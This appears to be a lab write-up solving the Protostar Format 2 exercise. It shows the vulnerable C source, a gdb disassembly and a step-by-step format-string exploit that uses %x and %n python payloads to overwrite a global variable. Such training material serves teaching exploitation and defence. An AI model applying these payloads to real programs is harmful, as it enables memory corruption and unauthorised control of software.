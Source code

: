 # PROTOSTAR : FORMAT 2
[Protostar:Format2](https://exploit.education/protostar/format-two/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings

Same as the previous challenge the code is vulnerable to Format Strings. We not only need to modify the **target** variable value but also need to change it to **64**.

Below is the disassembly of the **vuln()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format2
Reading symbols from /opt/protostar/bin/format2...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x08048454 <vuln+0>:    push   ebp
0x08048455 <vuln+1>:    mov    ebp,esp
0x08048457 <vuln+3>:    sub    esp,0x218
0x0804845d <vuln+9>:    mov    eax,ds:0x80496d8
0x08048462 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048466 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x0804846e <vuln+26>:   lea    eax,[ebp-0x208]
0x08048474 <vuln+32>:   mov    DWORD PTR [esp],eax
0x08048477 <vuln+35>:   call   0x804835c <fgets@plt>
0x0804847c <vuln+40>:   lea    eax,[ebp-0x208]
0x08048482 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048485 <vuln+49>:   call   0x804837c <printf@plt>
0x0804848a <vuln+54>:   mov    eax,ds:0x80496e4
0x0804848f <vuln+59>:   cmp    eax,0x40
0x08048492 <vuln+62>:   jne    0x80484a2 <vuln+78>
0x08048494 <vuln+64>:   mov    DWORD PTR [esp],0x8048590
0x0804849b <vuln+71>:   call   0x804838c <puts@plt>
0x080484a0 <vuln+76>:   jmp    0x80484b9 <vuln+101>
0x080484a2 <vuln+78>:   mov    edx,DWORD PTR ds:0x80496e4
0x080484a8 <vuln+84>:   mov    eax,0x80485b0
0x080484ad <vuln+89>:   mov    DWORD PTR [esp+0x4],edx
0x080484b1 <vuln+93>:   mov    DWORD PTR [esp],eax
0x080484b4 <vuln+96>:   call   0x804837c <printf@plt>
0x080484b9 <vuln+101>:  leave  
0x080484ba <vuln+102>:  ret    
End of assembler dump.
```

Get the address of the **target** variable using objdump
```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep "target"
080496e4 g     O .bss   00000004              target
```

Lets find our padding first. I am going to input a string of A's and find it out.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'AAAA' + '%x.'*3 + '%x.'") | ./format2
AAAA200.b7fd8420.bffff614.41414141.
target is 0 :(
```

So we have got our padding lets replace **0x41** with our **target variable address and check if the stack alignment is still ok or not.

```
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%x.'*3 + '%x.'") | ./format2
�200.b7fd8420.bffff614.80496e4.
target is 0 :(
```

Now I am going to replace the last **%x** with **%n** to write number of bytes written so far to the **target** variable address.
```
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%x.'*3 + '%n.'") | ./format2
�200.b7fd8420.bffff614..
target is 26 :(
```

Great we could change the value but its still not **64** so we can change the width of the format specifiers to increment the byte values. So let's check it out.

```
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%10x.'*3 + '%n.'") | ./format2
�       200.  b7fd8420.  bffff614..
target is 37 :(
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%20x.'*3 + '%n.'") | ./format2
�                 200.            b7fd8420.            bffff614..
target is 67 :(
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%18x.'*3 + '%n.'") | ./format2
�               200.          b7fd8420.          bffff614..
target is 61 :(
user@protostar:/opt/protostar/bin$ (python -c "print '\xe4\x96\x04\x08' + '%19x.'*3 + '%n.'") | ./format2
�                200.           b7fd8420.           bffff614..
you have modified the target :)
```